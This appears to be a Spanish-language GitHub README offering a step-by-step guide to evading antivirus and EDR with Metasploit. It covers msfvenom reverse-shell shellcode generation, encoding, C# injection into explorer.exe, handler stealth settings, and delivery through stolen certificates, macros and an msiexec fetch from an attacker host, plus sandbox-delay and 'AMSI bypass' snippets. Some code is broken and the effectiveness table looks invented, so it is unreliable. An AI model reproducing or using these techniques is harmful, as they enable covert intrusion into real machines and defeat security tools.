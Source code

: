 # JumpCode

### **Guía de Evasión de AV con Metasploit + Visual Studio Code**

#### **1. Generación del Payload (Ocultamiento Básico)**
```bash
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.X LPORT=5555 -f csharp
```
▸ **Mejora clave**:  
• Codifica 3 veces con `-e x86/shikata_ga_nai -i 3`  
• Usa payloads menos comunes: `windows/x64/meterpreter/reverse_https`  
• Añade nops: `-n 22`  

#### **2. Ofuscación del Shellcode**
```csharp
// Conversión a formato ofuscado (ejemplo real)
string payload = "*fc*e8*82...*d5";  // 1. Eliminar "0x", 2. Reemplazar con "*", 3. Quitar comas
``
▸ **Técnicas avanzadas**:  
• **Split inteligente**:  
```csharp
string[] hexParts = payload.Split(new[] { '*' }, StringSplitOptions.RemoveEmptyEntries);
```  
• **Cifrado XOR**: Añade capa de cifrado simple con clave aleatoria  

#### **3. Implementación en Visual Studio (Trucos Anti-EDR)**
```csharp
// Técnica de asignación memorya dinámica
IntPtr mem = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);

// Inyección en proceso legítimo (ej. explorer.exe)
IntPtr hProcess = OpenProcess(0x1F0FFF, false, targetPID);
WriteProcessMemory(hProcess, mem, shellcode, shellcode.Length, out _);
CreateRemoteThread(hProcess, IntPtr.Zero, 0, mem, IntPtr.Zero, 0, IntPtr.Zero);
```

#### **4. Configuración del Handler (Stealth Mode)**
```bash
msf6 > set EnableStageEncoding true
msf6 > set StageEncoder x64/zutto_dekiru
msf6 > set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0)"
msf6 > set ExitOnSession false
```
#### **5. Abrir Msfconsole**
````bash
msfconsole
msfconsole /multi/handler
msfconsole(/multi/handler)> use/windows/shell/reverse_tcp
````
#### **6. Ejecutar el payload**
*Configurar el lhost y lport y finalmente lanzar el exploit*

![image](https://github.com/90l3m0np13/JumpCode/blob/main/JumpCode.png)

#### **7. Finalmente abrir el scrip malicioso en la máquina atacada**


#### **5. Técnicas de Entrega (Bypass SmartScreen)**
• **Firma digital**: Usa signtool con certificados robados/auto-firmados  
• **Plantillas Office**: Incrusta en macros (usar nombres de funciones ofuscados)  
• **LOLBAS**: Ejecución via `msiexec.exe /i http://attacker/payload.msi`  

---

### **Tabla Comparativa: Técnicas vs Eficacia**

| Técnica                  | Detección AV | Dificultad | Eficacia |
|--------------------------|--------------|------------|----------|
| Shellcode crudo          | Alta         | Baja       | 20%      |
| Ofuscación básica (*)    | Media        | Media      | 45%      |
| + XOR Encryption         | Baja         | Alta       | 75%      |
| + Inyección en procesos  | Muy baja     | Alta       | 90%      |

---

### **Recomendaciones Clave**
1. **Sleep() es tu amigo**:  
   ```csharp
   Thread.Sleep(new Random().Next(2000, 5000)); // Evita sandboxes
   ```  
2. **API Hashing**: Resuelve APIs dinámicamente con:  
   ```csharp
   [DllImport("kernel32")] static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
   ```  
3. **AMSI Bypass**: Incluye este código al inicio:  
   ```csharp
   var amsi = (new[] { 'A','m','s','i','S','c','a','n','B','u','f','f','e','r' });
   IntPtr ptr = VirtualAlloc(IntPtr.Zero, (uint)amsi.Length, 0x1000, 0x40);
   Marshal.Copy(amsi, 0, ptr, amsi.Length);
   ```
   ### **Flujo de Evasión Avanzado**
```mermaid
graph TD
    A[Generar Payload] --> B[Encoder + Packer]
    B --> C[Ofuscación en C#]
    C --> D[Inyección en Proceso]
    D --> E[C2 con HTTPS]
    E --> F[Limpieza de Artefactos]
```

